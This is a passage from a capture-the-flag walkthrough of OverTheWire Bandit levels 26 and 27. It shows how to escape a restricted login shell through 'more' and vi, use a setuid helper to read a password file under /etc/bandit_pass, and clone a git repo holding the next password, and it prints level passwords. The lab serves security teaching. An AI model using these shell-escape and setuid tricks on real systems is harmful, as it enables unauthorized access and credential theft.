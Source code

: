 ```bash
~                                                                                                                                        
~                                                                                                                                        
~                                                                                                                                        
"/etc/bandit_pass/bandit26" [readonly] 1L, 33C 
```

Now, as we already have a shell using `vi`, we can get the password for level 27.

```bash
:set shell=/bin/bash
:!ls -la
total 36
drwxr-xr-x  3 root     root     4096 Oct 16 14:00 .
drwxr-xr-x 41 root     root     4096 Oct 16 14:00 ..
-rwsr-x---  1 bandit27 bandit26 7296 Oct 16 14:00 bandit27-do
-rw-r--r--  1 root     root      220 May 15  2017 .bash_logout
-rw-r--r--  1 root     root     3526 May 15  2017 .bashrc
-rw-r--r--  1 root     root      675 May 15  2017 .profile
drwxr-xr-x  2 root     root     4096 Oct 16 14:00 .ssh
-rw-r-----  1 bandit26 bandit26  258 Oct 16 14:00 text.txt
:!./bandit27-do cat /etc/bandit_pass/bandit27                                                                          
3ba3118a22e93127a4ed485be72ef5ea
```
**Explanation:** In the first part we figure that the fake shell read a file with `more` and exit. As the content of the file is not long enough, we need to reduce the size of the terminal to enable `more` to paging through text one screenful at a time. Once `more` is running we can type **v** to open `vi` and execute command through that tool. Same thing for the second part except the `bandit27-do` command will give us the password.
{: .notice--success}

## Bandit 27 Solution

There is a git repository at **ssh://bandit27-git@localhost/home/bandit27-git/repo**. The password for the user **bandit27-git** is the same as for the user **bandit27**.

```bash
$ ssh bandit27@bandit.labs.overthewire.org -p 2220

bandit27@bandit:~$ mkdir /tmp/repo123
bandit27@bandit:~$ cd /tmp/repo123
bandit27@bandit:/tmp/repo123$ git clone ssh://bandit27-git@localhost/home/bandit27-git/repo.git/
Cloning into 'repo'...
bandit27-git@localhost password: 

remote: Counting objects: 3, done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 3 (delta 0), reused 0 (delta 0)
Receiving objects: 100% (3/3), done.
bandit27@bandit:/tmp/repo123$ ls
repo
bandit27@bandit:/tmp/repo123$ cd repo/
bandit27@bandit:/tmp/repo123/repo$ ls
README
bandit27@bandit:/tmp/repo123/repo$ cat README 
The password to the next level is: 0ef186ac70e04ea33b4c1853d2526fa2
```
